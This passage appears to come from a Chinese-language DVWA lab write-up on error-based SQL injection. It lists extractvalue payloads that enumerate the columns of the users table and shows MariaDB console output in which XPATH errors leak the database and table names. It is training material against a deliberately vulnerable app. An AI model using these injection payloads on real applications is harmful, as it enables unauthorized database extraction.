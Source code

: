 ![extractvalue_user_id](images/extractvalue_user_id.png)

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 1,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 2,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 3,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 4,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 5,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 6,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 7,1)));#`

后端mysql执行语句如下：

```bash
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,database()));
ERROR 1105 (HY000): XPATH syntax error: '~dvwa'
MariaDB [dvwa]> select table_name from information_schema.tables where table_schema = 'dvwa';
+------------+
| table_name |
+------------+
| guestbook  |
| users      |
+------------+
2 rows in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'dvwa')));
ERROR 1242 (21000): Subquery returns more than 1 row
MariaDB [dvwa]>
MariaDB [dvwa]> select count(table_name) from information_schema.tables where table_schema = 'dvwa';
+-------------------+
| count(table_name) |
+-------------------+
|                 2 |
+-------------------+
1 row in set (0.000 sec)
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema = 'dvwa')));
ERROR 1105 (HY000): XPATH syntax error: '~2'

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~guestbook'

```